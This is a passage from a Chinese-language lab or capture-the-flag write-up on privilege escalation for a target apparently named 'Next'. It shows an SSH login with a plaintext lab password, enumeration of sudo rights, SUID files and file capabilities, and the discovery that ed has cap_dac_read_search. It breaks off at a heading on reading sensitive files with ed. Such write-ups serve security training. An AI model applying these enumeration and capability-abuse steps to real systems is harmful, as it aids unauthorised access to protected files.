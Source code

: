 # 四、权限提升

## 4.1 SSH 登录

使用获取的凭据登录系统：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ ssh c1trus@192.168.205.190
c1trus@192.168.205.190's password: MazeSecure@2025!
...
$ id
uid=1000(c1trus) gid=1000(c1trus) groups=1000(c1trus)
```

## 4.2 权限提升信息收集

### 检查 sudo 权限

```bash
$ sudo -l
...
User c1trus may run the following commands on Next:
    (ALL) NOPASSWD: /usr/bin/whoami
```

只能无密码执行 whoami，无法直接利用。

### 查找 SUID 文件

```bash
$ find / -perm -4000 -type f -exec ls -l {} \; 2>/dev/null
...
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwsr-sr-x 1 root root 182600 Jan 14  2023 /usr/bin/sudo
...
```

标准的 SUID 程序，未发现异常。

### 查找具有特殊权限的文件

```bash
$ /usr/sbin/getcap -r / 2>/dev/null
/usr/bin/ed = cap_dac_read_search+ep
/usr/bin/ping = cap_net_raw+ep
...
```

发现 `/usr/bin/ed` 具有 `cap_dac_read_search` 能力，这个能力允许程序绕过文件读取权限检查。

## 4.3 利用 ed 读取敏感文件
